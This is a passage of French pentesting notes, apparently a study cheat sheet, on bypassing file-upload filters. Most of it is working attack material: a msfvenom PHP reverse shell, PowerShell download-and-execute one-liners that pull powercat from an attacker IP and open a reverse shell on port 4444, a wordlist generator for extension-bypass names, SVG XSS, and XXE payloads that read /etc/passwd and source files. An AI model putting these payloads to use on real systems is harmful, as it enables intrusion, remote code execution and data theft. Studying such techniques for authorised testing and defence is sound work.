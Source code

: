Doit trouver comment passer les filtres.
* essayer d'autres extentions
* utiliser différentes casses
* encodage base64 peut servir

On peut peut-être utiliser ../../ ou autre pour déplacer le fichier et remplacer fichiers importants

powershell ou CMD?

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	
# Générer un reverse shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	
# Powershell	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Attention à l'encodage. Linux va encoder and UTF-8 mais Powershell utilise UTF-16LE
	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
echo "command" | iconv -t UTF-16LE | base64 -w0 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	
# CMD
Attention: Changer les " par des ‘ à l’intérieur de la commande.
	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
PowerShell.exe -ExecutionPolicy Unrestricted -command "(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell"
PowerShell.exe -ExecutionPolicy Unrestricted -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.164/powercat.ps1')"
PowerShell.exe -ExecutionPolicy Unrestricted -command "./powercat -c 192.168.119.3 -p 4444 -e powershell"
PowerShell.exe -ExecutionPolicy Unrestricted -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.3/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Serveur de fichier HTTP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
python -m http.server 80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Outrepasser contremesures
#### Vérification côté client
* Modifier la requête 
* Modifier le code source
#### Vérification côté serveur
Fuzzer les extensions pour trouver ce qui est accepté
charactères à ajouter autour de l'extension
* %20
* %0a
* %00				PHP <= 5.X
* %0d0a
* /
* .\
* .
* …
* :					Avant l'extension sur un serveur Windows

génération de permutations

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.phps' '.phtm' '.pht' '.phar' '.phpt' '.pgif' '.phtml'; do
        echo "$char$ext.jpg" >> wordlist.txt
        echo "$ext$char.jpg" >> wordlist.txt
        echo ".jpg$char$ext" >> wordlist.txt
        echo ".jpg$ext$char" >> wordlist.txt
        echo "$ext$char" >> wordlist.txt
        echo "$char$ext" >> wordlist.txt
        echo "$ext" >> wordlist.txt
    done
done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vérifier les octets magiques
	
#### Avancé
Ne peut pas exécuter de PHP
XSS par envoi de fichier html
Ajouter de quoi dans le metadata si il est affiché
le type MIME (ex: text/html) peut définir comment un fichier est affiché
XSS avec SVG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
XXE inclusion de code dans XML. Possible avec divers documents. SVG, PDF, PowerPoint, Word
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Utiliser les noms de fichiers comme vecteur
#### Windows
|, <, >, *, ou ? comme référencé plus haut
(hackthebox.txt) we can use (HAC~1.TXT) or (HAC~2.TXT) On peut utiliser WEB~.CONF pour  réécrire sur web.conf